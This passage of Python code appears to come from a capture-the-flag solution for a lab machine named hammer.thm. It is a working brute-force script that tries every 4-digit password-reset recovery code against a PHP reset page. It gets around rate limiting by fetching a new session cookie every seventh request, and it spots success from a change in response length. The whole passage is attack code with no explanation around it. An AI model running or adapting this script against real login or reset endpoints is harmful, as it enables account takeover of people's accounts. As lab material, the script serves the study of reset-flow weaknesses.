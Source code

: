```
        response = requests.post(url, data=data, headers=headers, allow_redirects=False)
        
        # Extract PHPSESSID from cookies
        if 'PHPSESSID' in response.cookies:
            return response.cookies['PHPSESSID']
        else:
            print("No PHPSESSID cookie found in response")
            return None
    except Exception as e:
        print(f"Error getting PHPSESSID: {e}")
        return None

def submit_recovery_code(phpsessid, recovery_code):
    """Submit Recovery Code using the retrieved PHPSESSID"""
    try:
        # Define request parameters
        url = "http://hammer.thm:1337/reset_password.php"
        data = {"recovery_code": recovery_code, "s": "180"}
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
        }
        cookies = {"PHPSESSID": phpsessid}
        
        # Send POST request
        response = requests.post(url, data=data, headers=headers, cookies=cookies)
        
        return response.text
    except Exception as e:
        print(f"Error submitting recovery code: {e}")
        return ""

def main():
    phpsessid = get_phpsessid()
    if not phpsessid:
        print("Failed to retrieve initial PHPSESSID. Exiting...")
        return
    
    for i in range(10000):
        recovery_code = f"{i:04d}"  # Format the recovery code as a 4-digit string
        
        if i % 7 == 0:  # Every 7th request, get a new PHPSESSID
            new_phpsessid = get_phpsessid()
            if new_phpsessid:
                phpsessid = new_phpsessid
            else:
                print(f"Failed to retrieve PHPSESSID at attempt {i}. Using previous one.")
        
        response_text = submit_recovery_code(phpsessid, recovery_code)
        
        # Determine if we found the correct recovery code
        # We're checking if the response length is different than expected
        word_count = len(response_text.split())
        if word_count != 148:
            print(f"Success! Recovery Code: {recovery_code}")
            print(f"PHPSESSID: {phpsessid}")
            print(f"Response Text: {response_text}")
            break
            
        # Optional: Add a small delay to avoid overwhelming the server
        if i % 100 == 0:
            time.sleep(0.5)
            print(f"Tried {i} codes so far...")

```
